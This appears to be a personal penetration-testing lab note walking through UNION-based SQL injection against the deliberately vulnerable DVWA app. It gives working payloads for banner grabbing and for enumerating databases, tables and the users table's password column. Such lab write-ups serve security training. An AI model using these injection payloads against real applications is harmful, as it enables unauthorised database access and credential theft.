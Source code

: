 # 01 - Database Reconnaissance

Search Tag: #sql-injection #union #enumeration-and-discovery #dvwa

## 1.1 - Dump Database

### 1.1.1 - Columns Enumeration

^78ef92

#### 1.1.1.1 - UNION Detection

We can double confirm using [[Tactics && Techniques && Procedures (TTPs) Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab Simulation/01 - DVWA/Difficulty/Low/Manual/02 - Error-Based Query SQL Injection/01 - Database Reconnaissance#^f521af|error-based (ORDER BY)]] fields enumeration.

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

### 1.1.2 - Enumeration and Discovery

#### 1.1.2.1 - UNION Enumeration

##### 1.1.2.1.1 - Banner Grab

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

- The DBMS server is MariaDB which is a fork of MySQL.

![[1.1 - Banner Grab.png]]

##### 1.1.2.1.2 - Current Database

```sql
' UNION SELECT NULL, DATABASE()#
```

- The current database is `dvwa`

![[1.2 - Current Database.png]]

##### 1.1.2.1.3 - Current Database User

```sql
' UNION SELECT NULL, USER()#
```

- The current database is `dvwa@localhost`

![[1.3 - Current User.png]]

#### 1.1.2.2 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

![[1.4 - Enumerate Databases.png]]

Let's enumerate the tables.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

![[1.5 - Enumerate Tables With The Current Database.png]]

You can narrow it down.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE 'user%'#
```

Let's note down the tables we've discovered that are potential to retrieve data.

```
users
```

Let's enumerate the columns.

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users'#
```

![[1.6 - Enumerate Columns With The Current Database.png]]

Let's note down the columns we've discovered that are potential to retrieve data

```
user
password
```